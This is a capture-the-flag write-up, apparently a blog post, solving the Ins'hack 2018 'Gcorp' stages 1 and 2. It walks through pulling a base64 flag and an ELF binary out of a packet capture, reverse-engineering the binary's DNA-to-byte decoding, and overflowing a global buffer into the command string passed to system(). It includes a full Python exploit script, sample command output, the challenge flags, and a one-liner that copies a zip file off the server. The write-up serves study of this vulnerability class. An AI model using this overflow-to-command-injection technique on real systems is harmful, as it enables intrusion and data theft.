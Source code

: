 ```yaml
---
layout: post
title:  "[Ins'hack CTF 2018] Gcorp stage 1 & 2"
date:   2018-04-08 17:00:00 +0000
categories: "CTF"
comments: true
---
```


The second pwn challenge was Gcorp Stage 2, but it required to complete the first stage. This series of challenges was very complete as it had a "background" in such a way that the real fun was to progress in the stages.

Stage 1
---------------------
>While loosing some time on the Internet you fell on a old blog-post about conspiracy theories...
>
>A self proclaimed hacker attached a network capture in a comment of this post telling that he will be `0xdeadbeef` before finishing the work.
>
>Even if the job seems risky you can't help it, you wanna look at it...
>the adventure begins...

The first stage is the only challenge of the networking category. It starts with a pcap file, which obviously I opened with Wireshark. Nothing really interesting in terms of packets or streams, just some ARP and a long TCP stream which we can follow. At first sight, it seemed like junk data and I rapidly went through the entire stream to land on what appeared to be a base64 string:

![base64 string]({{ "/assets/inshackTcpStream.png" | absolute_url }})
And decoded, it gaves us the flag for the first stage:
```shell
└───▶ echo "SU5TQXtjMTgwN2EwYjZkNzcxMzI3NGQ3YmYzYzY0Nzc1NjJhYzQ3NTcwZTQ1MmY3N2I3ZDIwMmI4MWUxNDkxNzJkNmE3fQ==" | base64 -d
INSA{c1807a0b6d7713274d7bf3c6477562ac47570e452f77b7d202b81e149172d6a7}
```
Nothing too complicated but the funnier part is following.

Stage 2
---------------------
>All you need to do is to pwn using some DNA samples...
>
>Once you gathered enough information, go checkout this (url)
>
>Note: you should validate stage 1 to have more information on stage 2.

In this part, there was just a URL given that said:
>... POST valid DNA data (input limited to 1024 bytes)

After trying some POST requests, I had errors but nothing much to drive me on the correct path. As mentioned in the description, I decided to give a closer look at the first stage and the TCP stream. And yes, there was more information in it:

![random test]({{ "/assets/inshackRandomText.png" | absolute_url }})
This text was inside the data, and I did try to find a port 12142 open on multiple URL (gcorp-stage-2.ctf.insecurity-insa.fr...) but nope, wasn't this.

![ELF start]({{ "/assets/inshackELFStart.png" | absolute_url }})
Here we got the beginning of an ELF binary. This is more promising. The next step was to extract this binary from the pcap file. After saving the stream with Wireshark, I used the hexadecimal editor Bless to cut the uneeded part. As a result, we had a perfect binary:
```shell
└───▶ file test
test: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=03596ed5f316c5308ca05926c90ceaa01596c356, not stripped
```
When launched, it waits for input and I rapidly recognized the same errors I had with the POST requests. Surely this was the program handling the POST requests. The next step was to disassemble it to see what kind of data it waits for. The **main** function had a call to a **dna_to_bin** that also had a call to **d2b**.
>**main** -> **dna_to_bin** -> **d2b**

+ **dna_to_bin**: checks if the input data is a multiple of 4. If so; iterates through the data 4 by 4 bytes and calls **d2b** each time with these 4 bytes.
+ **d2b**: iterates through the 4 bytes and checks if these bytes are equal to A, C, G or T (I know this group of letters was related to DNA because of the movie Gattaca). If not, it gaves us the other error we found with the POST requests: "DNA data contains a unknown character!". Otherwise it calculates a byte based on the 4 bytes sequences, and stores it into a global variable *godat*.

At this point I knew what the program was waiting for. For the same 4 bytes sequence it resulted in the same output. For example "CCCC" was "U", "CCCA" was "T"... Thus it was possible to generate any byte.

There also was an interesting call to **system** at the end of **main**. By setting a breakpoint on it I was able to see what argument the function takes:
```nasm
[-------------------------------------code-------------------------------------]
   0x555555554a76 <main+216>:	mov    edi,0x1
   0x555555554a7b <main+221>:	call   0x5555555546d0 <exit@plt>
   0x555555554a80 <main+226>:	lea    rdi,[rip+0x200639]        # 0x5555557550c0 <gcmd>
=> 0x555555554a87 <main+233>:	call   0x555555554690 <system@plt>
   0x555555554a8c <main+238>:	mov    eax,DWORD PTR [rbp-0x4]
   0x555555554a8f <main+241>:	cdqe   
   0x555555554a91 <main+243>:	mov    rdx,rax
   0x555555554a94 <main+246>:	lea    rsi,[rip+0x2005a5]        # 0x555555755040 <godat>
Guessed arguments:
arg[0]: 0x5555557550c0 ("echo $(date) > /tmp/dna.log")
```
Hmm, "echo $(date) > /tmp/dna.log" is the argument string for system, which is stored in the global variable *gcmd*. This variable was stored between two other global variables: *gidat* and *godat*.
```nasm
gdb-peda$ x/30dx 0x5555557550c0 - 0x40
0x555555755080 <godat+64>:	0x0000000000000000	0x0000000000000000
0x555555755090 <godat+80>:	0x0000000000000000	0x0000000000000000
0x5555557550a0 <godat+96>:	0x0000000000000000	0x0000000000000000
0x5555557550b0 <godat+112>:	0x0000000000000000	0x0000000000000000
0x5555557550c0 <gcmd>:	    0x642824206f686365	0x2f203e2029657461
0x5555557550d0 <gcmd+16>:	  0x2e616e642f706d74	0x0000000000676f6c
0x5555557550e0 <gcmd+32>:	  0x0000000000000000	0x0000000000000000
0x5555557550f0 <gcmd+48>: 	0x0000000000000000	0x0000000000000000
0x555555755100 <gidat>:	    0x4343434341414141	0x000000000000000a
0x555555755110 <gidat+16>:	0x0000000000000000	0x0000000000000000
0x555555755120 <gidat+32>:	0x0000000000000000	0x0000000000000000
0x555555755130 <gidat+48>:	0x0000000000000000	0x0000000000000000
0x555555755140 <gidat+64>:	0x0000000000000000	0x0000000000000000
0x555555755150 <gidat+80>:	0x0000000000000000	0x0000000000000000
0x555555755160 <gidat+96>:	0x0000000000000000	0x0000000000000000
```
*gidat* is apparently storing our input (it had a size of 1024 bytes). With *godat* just above *gcmd*, the question was: are we able to overwrite *gcmd* with *godat* ? The maximum input size is 1024 bytes, so 1024/4=256. However, *godat* is 128 bytes long. A quick test resulted in:
```shell
└───▶ python -c "print('CCCC'*128 + 'CCCC', end='')" | ./test
sh: Ucho : commande introuvable
UUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUU
```
Yep, the command had effectivly been overwritten.

Therefore, the plan was to write a script that:
+ Takes a command in argument.
+ For each byte in this command, finds the right combination with the program.
+ Sends 4\*128=512 bytes to go through *godat* and 512 other bytes that start with the combination for the command.

There it is:
{% highlight python linenos %}
#!/usr/bin/python2

from pwn import *
import random, json, os, requests

context.log_level = 'error'

# ";" is added at the end of the command so what's after doesn't count
cmd = sys.argv[1] + " ;"
payload = ""
tab={}

# Because it takes a bit of time to find a combination, the combinations' dic
# is saved into a json file each time the script terminates and loaded again
# when the script starts
if (os.path.getsize('tab.json') > 0):
    with open('tab.json', 'rw') as fp:
        tab = json.load(fp)

for e in cmd:

    # If we already have the combination, it
    # is added to our payload
    if e in tab.keys():
        payload += tab[e]

    # If we don't have the combination:
    # The while True could be better, same
    # for the random.choice('GATC'), an iteration
    # through AAAA, then AAAC... would be more effective
    else:
        while True:
            # We start the process each time and do not
            # forget to close it
            c = process("./test")
            junk = ''.join([random.choice('GATC') for n in xrange(4)])
            c.sendline(junk)
            r = c.recv(1)
            # Combination is found, add it to the dictionnary
            # and our payload
            if r == e:
                payload += junk
                tab[e]=junk
                break
            c.close()

with open('tab.json', 'w') as fp:
    json.dump(tab, fp)

c = requests.post("https://gcorp-stage-2.ctf.insecurity-insa.fr/", data='C'*512+payload+512*tab[' '])
print(c.text.split('UUUUUU')[0])
{% endhighlight %}

We can now easily type our commands:
```shell
./xploit.py "ls -lah; cat .flag.txt"
total 916
drwxr-xr-x    1 gcorp    root        4.0K Apr  7 10:07 .
drwxr-xr-x    1 root     root        4.0K Apr  7 10:07 ..
-rw-rw-r--    1 gcorp    root          70 Apr  7 10:07 .flag.txt
-rwxrwxr-x    1 gcorp    root      891.9K Apr  7 10:07 dna_decoder
-rw-rw-r--    1 gcorp    root       10.0K Apr  7 10:05 stage_3_storage.zip
INSA{1fb977db25976d7e1a0fb713383de1cea90b2d15b4173708d867be3793571ed9}
```

Bonus
---------------------
Recover the stage_3_storage.zip
```shell
./xploit.py "cat stage_3_storage.zip | base64" | base64 -d > stage_3_storage.zip
```
